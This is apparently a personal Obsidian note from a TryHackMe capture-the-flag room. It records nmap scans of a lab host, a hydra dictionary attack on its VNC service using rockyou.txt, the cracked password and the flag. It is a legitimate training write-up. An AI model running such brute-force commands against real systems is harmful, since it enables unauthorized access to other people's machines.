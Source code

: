 ```yaml
---
creation date: December 13th 2022
last modified date: December 13th 2022
aliases: []
tags: #🎌
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #🎌  

# [[THM - [Day 5] He knows when you're awake]]  


# Resolution summary
- Ran a dictionary attack against the VNC service on port 5900 found it around the 1100 option in the rockyou.txt.

## Improved skills
- Learned VNC doesn't need to use usernames

## Used tools
- [[nmap]]
- [[hydra]]
- [[Remmina]]

---

# Information Gathering
Scanned all TCP ports:
```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-13 17:40 CST
Nmap scan report for 10.10.5.17
Host is up (0.20s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
5900/tcp open  vnc
```

Enumerated open TCP ports:
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 049c766d896042bf5487753326de7854 (RSA)
|   256 0b13ad9795dca9d52ea5af0368db5f5c (ECDSA)
|_  256 4c7e3451b8c97a0a407a81402c7c058f (ED25519)
5900/tcp open  vnc     VNC (protocol 3.8)
| vnc-info: 
|   Protocol version: 3.8
|   Security types: 
|_    VNC Authentication (2)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Enumerated top 200 UDP ports:
```bash

```

---

# Enumeration
## Port 5900 (VNC)
CTF points us to attack this services in order to crack the password.

---

# Exploitation
## Dictionary Attack
Utilized **Hydra** in order to break the password with the following command: `hydra -P /usr/share/wordlists/rockyou.txt -V vnc://10.10.5.17`

Found password this server does not user a username: **1q2w3e4r**

---

# Lateral Movement to user


---

# Privilege Escalation


---

# Trophy & Loot
flag.txt = **THM{I_SEE_YOUR_SCREEN}**
![[Pasted image 20221213182922.png]]
___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 13th 2022 (05:15 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
